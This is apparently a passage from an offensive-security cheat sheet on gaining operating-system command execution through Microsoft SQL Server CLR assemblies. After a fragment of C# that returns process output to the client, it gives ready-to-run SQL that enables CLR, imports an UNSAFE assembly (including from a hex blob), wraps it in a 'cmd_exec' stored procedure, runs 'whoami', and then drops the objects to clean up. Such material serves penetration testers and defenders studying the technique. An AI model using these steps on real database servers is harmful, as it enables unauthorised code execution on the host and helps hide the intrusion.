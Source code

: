 ```csharp
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());

        // Send the row back to the client.
        SqlContext.Pipe.SendResultsRow(record);
        
        // Mark the end of the result set.
        SqlContext.Pipe.SendResultsEnd();
        
        proc.WaitForExit();
        proc.Close();
    }
};
```

Then follow these instructions:

1. Enable `show advanced options` on the server
	```sql
	sp_configure 'show advanced options',1; 
	RECONFIGURE
	GO
	```
2. Enable CLR on the server
	```sql
	sp_configure 'clr enabled',1
	RECONFIGURE
	GO
	```
3. Import the assembly
	```sql
	CREATE ASSEMBLY my_assembly
	FROM 'c:\temp\cmd_exec.dll'
	WITH PERMISSION_SET = UNSAFE;
	```
4. Link the assembly to a stored procedure
	```sql
	CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
	GO
	```
5. Execute and clean
	```sql
	cmd_exec "whoami"
	DROP PROCEDURE cmd_exec
	DROP ASSEMBLY my_assembly
	```

**CREATE ASSEMBLY** will also accept an hexadecimal string representation of a CLR DLL

```sql
CREATE ASSEMBLY [my_assembly] AUTHORIZATION [dbo] FROM 
0x4D5A90000300000004000000F[TRUNCATED]
WITH PERMISSION_SET = UNSAFE 
GO 
```
